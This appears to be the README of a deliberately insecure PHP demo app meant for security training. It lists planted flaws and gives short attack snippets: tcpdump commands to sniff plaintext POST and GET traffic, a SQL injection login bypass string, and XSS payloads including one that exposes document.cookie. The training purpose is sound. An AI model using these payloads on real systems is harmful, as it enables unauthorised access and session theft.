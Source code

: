 # Insecure PHP Example

This example offers various security issues to explore.

## Insecure Webserver Configuration

The .env file is readable by everyone

    http://localhost:8080/.env

## Unencrypted Data Transport

The formular data is sent via unencrytped HTTP

    # Adjust the interface if necessary (-i eth0)
    # 0x47455420 == GET
    # 0x504F5354 == POST
    tcpdump -i eth0 -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504F5354'

## Session Hijacking

PHP Session can be hijacked

    # Adjust the interface if necessary (-i eth0)
    # 0x47455420 == GET
    tcpdump -i eth0 -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420'

## SQL Injection Possible

Due to the insecure PHP implementation SQL Injections are possible.

    Username: " or ""="
    Password: " or ""="

## Cross-Site Scripting Possible

Due to the insecure PHP implementation XSS is possible.

    <b onmouseover=alert('Gotcha!')>click me!</b>
    <script>alert(document.cookie);</script>

